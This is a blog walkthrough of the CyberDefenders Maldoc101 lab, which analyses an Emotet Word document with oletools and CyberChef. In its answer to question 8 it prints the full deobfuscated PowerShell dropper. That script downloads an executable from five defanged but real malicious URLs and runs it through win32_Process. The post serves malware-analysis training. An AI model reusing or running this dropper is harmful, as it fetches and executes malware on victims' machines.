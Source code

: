 ```yaml
---
layout: post
author: remotephone
title:  "CyberDefenders.org - Maldoc101 Walktrhough"
date:   2021-04-12 00:40:00 -0600
categories: lab homelab malware malware workflow
---
```


# CyberDefenders.org again

Having another go at a [CyberDefenders](https://cyberdefenders.org/) challenge, this one about maldocs.

## Environemtn

I did this through Windows Subsystem for Linux 2. I already have that environment installed and wworking, but any linux environment should give you a very similar path to follow what I did. 

I also grabbed [oletools](https://github.com/decalage2/oletools) as this is the king of the maldoc analyzers. My install process followed the instructions on his page (slightly modified) to `pip3 install oletools --user` and I also separately grabbed oledump from [here](https://blog.didierstevens.com/programs/oledump-py/) as it wasn't included.


## Question 1: What streams contain macros in this document? 

To know what they're asking for here, it helps to be familiar with the structure of the file. Yet again, back at Didier Steven's excellent documentation for info on that [here](https://olefile.readthedocs.io/en/latest/OLE_Overview.html). 

His description is as follows:

~~~
An OLE file can be seen as a mini file system or a Zip archive: It contains streams of data that look like files embedded within the OLE file. Each stream has a name. For example, the main stream of a MS Word document containing its text is named “WordDocument”.

An OLE file can also contain storages. A storage is a folder that contains streams or other storages. For example, a MS Word document with VBA macros has a storage called “Macros”.

Special streams can contain properties. A property is a specific value that can be used to store information such as the metadata of a document (title, author, creation date, etc). Property stream names usually start with the character ‘\x05’ (ASCII code 5).
~~~

Ok that makes sense. Let's oledump the file. This is the truncated output

~~~bash
computer@computer: ~/gits/MalDoc101
$ python oledump.py sample.bin                                                                               [22:50:23]
  1:       114 '\x01CompObj'
  2:      4096 '\x05DocumentSummaryInformation'
  3:      4096 '\x05SummaryInformation'
  4:      7119 '1Table'
  5:    101483 'Data'
  6:       581 'Macros/PROJECT'
  7:       119 'Macros/PROJECTwm'
  8:     12997 'Macros/VBA/_VBA_PROJECT'
  9:      2112 'Macros/VBA/__SRP_0'
 10:       190 'Macros/VBA/__SRP_1'
 11:       532 'Macros/VBA/__SRP_2'
 12:       156 'Macros/VBA/__SRP_3'
 13: M    1367 'Macros/VBA/diakzouxchouz'
 14:       908 'Macros/VBA/dir'
 15: M    5705 'Macros/VBA/govwiahtoozfaid'
 16: m    1187 'Macros/VBA/roubhaol'
<SNIP>
 ~~~

We can see 3 streams identified with M for macro i guess. We submit 13,15,16 and get our first flag.

## Question 2: What event is used to begin the execution of the macros?	

We can use olevba to break down this document in a way we can digest very easily. I pipe it to less because there is a lot of output and its good to start from the top. Right away, we see the function that's guilty, `Document_open`

~~~bash
olevba 0.56.1 on Python 3.8.5 - http://decalage.info/python/oletools
===============================================================================
FILE: sample.bin
Type: OLE
-------------------------------------------------------------------------------
VBA MACRO diakzouxchouz.cls
in file: sample.bin - OLE stream: 'Macros/VBA/diakzouxchouz'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Private Sub _
Document_open()
boaxvoebxiotqueb
End Sub
~~~

You can read more about that [here](https://docs.microsoft.com/en-us/office/vba/api/word.document.open) before submitting the flag. 

## Question #3: Identify the malware family

We can get a hash of the file and see if Virustotal has seen it yet, it should be pretty quick if it has.

https://www.virustotal.com/gui/file/d50d98dcc8b7043cb5c38c3de36a2ad62b293704e3cf23b0cd7450174df53fee/detection

Luck would have it, its already been uploaded, and this is Emotet. 

## Question 4: What stream is responsible for the storage of the base64-encoded string?	

This one was honestly a guess for me. I tried olevba'ing it, I could see content was flagged as base64 encoded in the function `roubhaol` but I couldn't find the exact stream. I oledump'ed the file again and reviewed the output

~~~bash
 31:       110 'Macros/roubhaol/i09/i12/\x01CompObj'
 32:        40 'Macros/roubhaol/i09/i12/f'
 33:         0 'Macros/roubhaol/i09/i12/o'
 34:     15164 'Macros/roubhaol/i09/o'
 35:        48 'Macros/roubhaol/i09/x'
 36:       444 'Macros/roubhaol/o'
~~~

My guess here was the biggest section must have it, so 34 is your flag. 

## Question 5: This document contains a user-form. Provide the name?	

Here, we can oledir the file to see all the parts of it, and browse it as a directory structure. 

computer@computer: ~/gits/MalDoc101
$ oledir sample.bin                                                                                          [23:10:11]
oledir 0.54 - http://decalage.info/python/oletools
OLE directory entries in file sample.bin:
----+------+-------+----------------------+-----+-----+-----+--------+------
id  |Status|Type   |Name                  |Left |Right|Child|1st Sect|Size
----+------+-------+----------------------+-----+-----+-----+--------+------
0   |<Used>|Root   |Root Entry            |-    |-    |3    |F3      |10112
1   |<Used>|Stream |Data                  |-    |-    |-    |8       |101483
2   |<Used>|Stream |1Table                |1    |-    |-    |CF      |7119
<SNIP SNIP>
12  |    govwiahtoozfaid         |5705  |
11  |    roubhaol                |1187  |
17  |  roubhaol                  |-     |
41  |    \x01CompObj             |97    |
42  |    \x03VBFrame             |292   |
18  |    f                       |510   |
20  |    i05                     |-     |6E182020-F460-11CE-9BCD-00AA00608E01
    |                            |      |Forms.Frame
23  |      \x01CompObj           |112   |
21  |      f                     |44    |
22  |      o                     |0     |
24  |    i07                     |-     |6E182020-F460-11CE-9BCD-00AA00608E01
    |                            |      |Forms.Frame
27  |      \x01CompObj           |112   |
25  |      f                     |44    |
26  |      o                     |0     |
28  |    i09                     |-     |46E31370-3F7A-11CE-BED6-00AA00611080
    |                            |      |Forms.MultiPage
<SNIP SNIP>
~~~

Here, we can clearly see that `roubhaol` again is the interesting part of the document, and that is our flag. The Forms.Frame and Forms.Multipage are indicators of the user form being present.

## Question 6: This document contains an obfuscated base64 encoded string; what value is used to pad (or obfuscate) this string?	

Review the Suspicious string, this is a snippet of it. 

~~~bash
�p2342772g3&*gs7712ffvs626fqo2342772g3&*gs7712ffvs626fqw2342772g3&*gs7712ffvs626fqe2342772g3&*gs7712ffvs626fqr2342772g3&*gs7712ffvs626fqs2342772g3&*gs7712ffvs626fqh2342772g3&*gs7712ffvs626fqeL2342772g3&*gs7712ffvs626fqL2342772g3&*gs7712ffvs626fq 2342772g3&*gs7712ffvs626fq-2342772g3&*gs7712ffvs626fqe2342772g3&*gs7712ffvs626fq JABsAG2342772g3&*gs7712ffvs626fqkAZQBj2342772g3&*gs7712ffvs626fqAGgAcg2342772g3&*gs7712ffvs626fqBvAHUA2342772g3&*gs7712ffvs626fqaAB3AH2342772g3&*gs7712ffvs626fqUAdwA92342772g3&*gs7712ffvs626fqACcAdg2342772g3&*gs7712ffvs626fqB1AGEA2342772g3&*gs7712ffvs626fqYwBkAG2342772g3&*gs7712ffvs626fq8AdQB22342772g3&*gs7712ffvs626fqAGMAaQ2342772g3&*gs7712ffvs626fqBvAHgA2342772g3&*gs7712ffvs626fqaABhAG2342772g3&*gs7712ffvs626fq8AbAAn2342772g3
~~~

What string do we see repeating? It's difficult to get it visually, but since we less'ed the output of olevba, we can search for the string. I know that `42772g3&` is going to be part of it, so if I start from the top of the doc and search down, we can see where that padding is split from the text.

~~~bash
feaxgeip = Split(geutyoeytiestheug, "2342772g3&*gs7712ffvs626fq")
~~~

## Question 7: What is the purpose of the base64 encoded string?	

These are always hard for me because I don't know exactly what the question wants. We can run the doc through `olevba sample.bin --reveal -a` which will give us the output we can work with, then take the very large text block that starts with `p2342772g3&*gs7...` and get that into cyber chef to deobfuscate it. This [recipe](https://gchq.github.io/CyberChef/#recipe=Find_/_Replace(%7B'option':'Simple%20string','string':'2342772g3%26*gs7712ffvs626fq'%7D,'',true,false,false,false)) will remove the padding, 

Finally, this [recipe](https://gchq.github.io/CyberChef/#recipe=Find_/_Replace(%7B'option':'Simple%20string','string':'2342772g3%26*gs7712ffvs626fq'%7D,'',true,false,false,false)Find_/_Replace(%7B'option':'Regex','string':'powersheLL%20-e%20'%7D,'',true,false,true,false)From_Base64('A-Za-z0-9%2B/%3D',true)Remove_null_bytes()) will clean up the script, remove the `powersheLL -e` from the beginning, and decode the base64.

To know you're deobfuscating the correct string, it should start with `p234` and end with `fvs626fqA=`.

The flag ends up being the first word of the depadded script, powershell. 

## Question 8: What WMI class is used to create the process to launch the trojan?	

Now that we have the deobfuscated script, it should look something like this (I changed every instance of http or https to hxxp or hxxps):

~~~bash
$liechrouhwuw='vuacdouvcioxhaol';[Net.ServicePointManager]::"SE`cuRiTy`PRO`ToC`ol" = 'tls12, tls11, tls';$deichbeudreir = '337';$quoadgoijveum='duuvmoezhaitgoh';$toehfethxohbaey=$env:userprofile+'\'+$deichbeudreir+'.exe';$sienteed='quainquachloaz';$reusthoas=.('n'+'ew-ob'+'ject') nEt.weBclIenT;$jacleewyiqu='hxxps://haoqunkong.com/bn/s9w4tgcjl_f6669ugu_w4bj/*hxxps://www.techtravel.events/informationl/8lsjhrl6nnkwgyzsudzam_h3wng_a6v5/*hxxp://digiwebmarketing.com/wp-admin/72t0jjhmv7takwvisfnz_eejvf_h6v2ix/*hxxp://holfve.se/images/1ckw5mj49w_2k11px_d/*hxxp://www.cfm.nl/_backup/yfhrmh6u0heidnwruwha2t4mjz6p_yxhyu390i6_q93hkh3ddm/'."s`PliT"([char]42);$seccierdeeth='duuzyeawpuaqu';foreach($geersieb in $jacleewyiqu){try{$reusthoas."dOWN`loA`dfi`Le"($geersieb, $toehfethxohbaey);$buhxeuh='doeydeidquaijleuc';If ((.('Get-'+'Ite'+'m') $toehfethxohbaey)."l`eNGTH" -ge 24751) {([wmiclass]'win32_Process')."C`ReaTe"($toehfethxohbaey);$quoodteeh='jiafruuzlaolthoic';break;$chigchienteiqu='yoowveihniej'}}catch{}}$toizluulfier='foqulevcaoj'
~~~

We can pretty easily see the wmiclass `win32_Process` and that's our next flag. 

## Question 9: Multiple domains were contacted to download a trojan. Provide first FQDN as per the provided hint.	

We can see above pretty easily the first domain, `haoqunkong[.]com`. Submit it without the square brackets and we're done. 

## OK that's it, again

Good stuff yet again. I am enjoying the exercises and it's nice to keep sharp on this stuff. Free form answers are sometimes tricky with investigative questions, but usually its pretty obvious. I used the first hint (the ones that dont take any points away) a few times, but they usually didn't give me anything I could work with. Trial and error is your friend sometimes. Thanks for reading.